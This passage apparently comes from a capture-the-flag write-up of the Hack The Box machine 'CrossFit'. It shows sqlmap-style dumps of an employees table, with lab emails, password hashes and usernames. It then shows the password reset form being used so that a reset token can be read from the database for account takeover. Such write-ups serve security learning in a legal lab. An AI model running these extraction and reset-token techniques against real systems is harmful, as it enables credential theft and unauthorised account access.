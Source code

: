 
Switching to the `employees` database, the `employees` table has four entries
(`-D employees -T employees --dump`):

    
    
    Database: employees
    Table: employees
    [4 entries]
    +----+-----------------------------+------------------------------------------------------------------+---------------+
    | id | email                       | password                                                         | username      |
    +----+-----------------------------+------------------------------------------------------------------+---------------+
    | 1  | david.palmer@crossfit.htb   | fff34363f4d15e958f0fb9a7c2e7cc550a5672321d54b5712cd6e4fa17cd2ac8 | administrator |
    | 2  | will.smith@crossfit.htb     | 06b4daca29092671e44ef8fad8ee38783b4294d9305853027d1b48029eac0683 | wsmith        |
    | 3  | maria.williams@crossfit.htb | fe46198cb29909e5dd9f61af986ca8d6b4b875337261bdaa5204f29582462a9c | mwilliams     |
    | 4  | jack.parker@crossfit.htb    | 4de9923aba6554d148dbcd3369ff7c6e71841286e5106a69e250f779770b3648 | jparker       |
    +----+-----------------------------+------------------------------------------------------------------+---------------+
    

The `password_reset` table returns empty (`-D employees -T password_reset
--dump`):

    
    
    [08:08:06] [INFO] fetching columns for table 'password_reset' in database 'employees'
    [08:08:06] [INFO] fetching entries for table 'password_reset' in database 'employees'
    [08:08:06] [WARNING] unable to retrieve the entries for table 'password_reset' in database 'employees'
    

#### Password Reset

Earlier, I found a login page and a password reset form, but I was unable to
use it because I didn’t have any valid email addresses. If I enter one from
the `employees` table above, it returns:

![image-20210707081233959](https://0xdfimages.gitlab.io/img/image-20210707081233959.png)

Now that’s in the DB as well:

    
    
    +---------------------------+------------------------------------------------------------------+---------------------+
    | email                     | token                                                            | expires             |
    +---------------------------+------------------------------------------------------------------+---------------------+
    | david.palmer@crossfit.htb | 9f1d6826985f0179ed38afd3d65b54a640659c9dc519174c08c66f65419f73b6 | 2021-07-04 13:18:24 |
    +---------------------------+------------------------------------------------------------------+---------------------+
    